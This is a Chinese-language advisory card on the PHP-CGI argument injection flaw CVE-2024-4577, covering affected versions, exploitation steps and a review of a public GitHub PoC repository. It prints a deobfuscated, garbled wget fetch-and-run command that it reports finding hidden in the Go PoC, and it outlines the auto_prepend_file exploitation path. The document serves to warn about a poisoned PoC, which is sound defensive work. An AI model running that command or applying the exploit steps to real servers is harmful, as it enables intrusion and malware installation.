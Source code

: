 ## CVE-2024-4577-PHP-CGI参数注入

**漏洞编号:** CVE-2024-4577

**漏洞类型:** 参数注入/远程代码执行

**影响应用:** PHP

**危害等级:** 高危，可能导致远程代码执行、源码泄露

**影响版本:** PHP 8.1.* before 8.1.29, 8.2.* before 8.2.20, 8.3.* before 8.3.8 (Windows, CGI mode)

**利用条件:** Windows系统, PHP以CGI模式运行, 启用了使用"Best Fit"策略的代码页。

**POC 可用性:** 是

**投毒风险:** 80%

## 详情

CVE-2024-4577是一个存在于PHP的Windows版本中的漏洞，当PHP以CGI模式运行时，如果系统配置为使用特定的代码页，Windows可能会使用"Best-Fit"行为来替换命令行中的字符。PHP CGI模块可能会错误地将这些字符解释为PHP选项，从而允许攻击者向PHP二进制文件传递选项。攻击者可以利用该漏洞来执行任意PHP代码，泄露源代码，甚至在服务器上运行任意操作系统命令。

**有效性：**
提供的Go和Python POC代码都尝试通过`auto_prepend_file`和`allow_url_include`设置，包含phpinfo()的payload来验证漏洞是否存在。 如果目标系统返回包含"PHP Version"的响应，则表明漏洞存在。根据漏洞描述和提供的资料，这些POC利用方式是有效的。

**投毒风险：**
*   **Go版本:** 在提供的Go代码中，`nFPfVl()` 函数包含混淆的代码，尝试执行 shell 命令。 解混淆后的代码为：`wget http://tvhgw/kaiFRE-0asbd|e/bpdc/ /c /3nadeag5 -t6 uo/tat.fe33`。这显然是一个恶意命令，尝试从一个未知的URL下载文件并执行。因此，Go版本的PoC **存在高危投毒风险**。

*   **Python版本:** Python版本的PoC相对干净，主要是发送包含phpinfo()的请求并判断是否成功，**未发现明显的投毒代码**，但是也可能存在通过打印或者其它方法进行投毒，投毒的可能性较低。

综合评价，考虑到Go代码中`nFPfVl`函数的存在，认为此仓库的投毒风险较高。Python版本代码看起来比较正常，相对较为安全。

**利用方式：**
1.  攻击者发送特制的HTTP请求到目标服务器上的PHP CGI程序。
2.  该请求包含经过编码的恶意字符，这些字符会被Windows的"Best-Fit"代码页转换机制所修改。
3.  修改后的字符会被PHP CGI模块错误地解析为PHP配置选项，如`auto_prepend_file`和`allow_url_include`。
4.  攻击者可以使用`auto_prepend_file`选项来包含远程文件或输入流（`php://input`），从而执行任意PHP代码。
5.  攻击者可以利用执行的PHP代码读取源代码，或者执行操作系统命令。

**项目地址:** [deadlybangle/CVE-2024-4577-PHP-RCE](https://github.com/deadlybangle/CVE-2024-4577-PHP-RCE)

**漏洞详情:** [CVE-2024-4577](https://nvd.nist.gov/vuln/detail/CVE-2024-4577)